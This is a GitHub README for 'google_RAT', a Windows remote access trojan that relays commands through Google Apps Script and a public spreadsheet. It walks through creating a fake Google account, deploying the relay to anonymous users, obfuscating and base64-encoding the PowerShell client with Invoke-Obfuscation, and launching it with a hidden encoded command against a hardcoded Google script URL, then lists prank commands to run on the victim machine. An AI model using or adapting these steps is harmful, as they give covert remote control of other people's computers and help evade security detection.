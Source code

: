 # google_RAT
A RAT (Remote Access Tool) for Windows systems using google apps script as the middle man

**NOTE:** Current limit to data upload and download is 8.5 MB. This is due to the [limits of google sheets](https://gsuitetips.com/tips/sheets/google-spreadsheet-limitations/).

## TODO
* add timestamps to google drive output
* implement data reset from `script.py` for a stale client

## Setup

### Deploying Google Server and Spreadsheet Database
* Create a fake Google account
* Create a spreadsheet in the fake account's Google drive
* Make it public:
  * `File` > `Share...` > Give it a random name > `Get sharable link`
* Paste the link into the `SPREADSHEET_URL` variable in `server.js`
  * remove the `?usp=sharing` at the end of the URL. It should end in `/edit`
* Visit [Google Scripts](https://www.google.com/script/start/) and paste the code in `server.js`
* Publish the server:
  * Save and name the project something
  * `Publish` > `Deploy as web app`
    * Fill in the blank with something
    * Make sure the app is executed as `Me`
    * Make sure `Anyone, even anonymous` can access the app
  * `Review Permissions` > Select your fake account > `Advanced` > `Go to Untitled project (unsafe)` > enter 'Continue' > `Allow`
  * Copy the URL and paste it into `$SRV` of `script.ps1`

### Deploying Powershell Client
**tldr** Test powershell obfuscated and base64 encoded command to server at (`https://script.google.com/macros/s/AKfycby62AAepUEJ69FoMfpZ9kOJgTZOc2dInSX2lhGlEEoDP_c-vp47/exec`):
```
powershell.exe -noE -NonI -nOpR -eNc <payload from server>
```
* Run the following powershell to compress `script.ps1`:
```
$s = gc <path to script.ps1>
$x = [convert]::tobase64string([system.text.encoding]::unicode.getbytes($s))
$sx = [system.text.encoding]::unicode.getstring([convert]::frombase64string($x))
$sx = $sx.replace('  ', '')
$sx = $sx.replace(' = ', '=')
$sx = $sx.replace(' + ', '+')
$sx = $sx.replace(' - ', '-')
$sx = $sx.replace(' | ', '|')
$sx = $sx.replace('if (', 'if(')
$sx = $sx.replace('while (', 'while(')
$sx = $sx.replace(', ', ',')
$sx = $sx.replace('; ', ';')
$sx = $sx.replace('} ', '}')
$sx = $sx.replace('{ ', '{')
$sx = $sx.replace(' {', '{')
write-host $sx
```
* Download [Invoke-Obfuscation](https://github.com/danielbohannon/Invoke-Obfuscation) and run the following obfuscation techniques:
  * `Out-ObfuscatedTokenCommand -ScriptBlock $ScriptBlock 'Command' 1`
  * `Out-ObfuscatedTokenCommand -ScriptBlock $ScriptBlock 'String' 2`
  * `Out-ObfuscatedTokenCommand -ScriptBlock $ScriptBlock 'CommandArgument' 3`
* Take the resulting obfuscated powershell and run the following powershell to produce the base64 encoded string:
```
$s = gc <path to file with obfuscated powershell command>
$x = [convert]::tobase64string([system.text.encoding]::unicode.getbytes($s))
write-host $x
```
* Copy the above output into the following command: `powershell.exe -noE -NonI -nOpR -eNc <output>`

### Deploying Python Shell
**NOTE:** Script requires python 3
* Copy the public link to Google apps server (same one pasted into `script.ps1`) and run the following command
  * `python script.py <url to google apps server>`
* Fun test commands:
  * `(new-object -com SAPI.SpVoice).speak('self destruct in 9 8 7 6 5 4 3 2 1 boom')`
  * `$e=new-object -com internetexplorer.application; $e.visible=$true; $e.navigate('https://www.youtube.com/watch?v=dQw4w9WgXcQ');`
